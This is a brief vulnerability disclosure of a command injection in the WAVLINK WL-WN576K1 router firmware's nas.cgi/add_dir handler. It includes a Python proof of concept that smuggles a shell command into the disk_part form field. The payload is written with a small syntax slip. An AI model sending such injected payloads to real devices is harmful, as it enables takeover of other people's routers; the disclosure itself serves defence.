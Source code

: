 # command injection

## WAVLINK_WL_WN576K1

version: 20220801

## Description:

There is a command injection in nas.cgi/add_dir

## Source:

you may download it from : 

[WL-WN576K1 - WAVLINK See the world! Powered by Wavlink](https://www.wavlink.com/en_us/firmware/details/5ce8519bd8.html)

## Analyse:

![](10.png)

get value from disk_part, then call do_system, cause command injection

## POC

```
url = "http://192.168.0.1/cgi-bin/nas.cgi"
payload = ';ls > /tmp/1  ;' + '\n'

r = requests.post(url, data={ 'page':'adddir', 'disk_part': + payload})
```
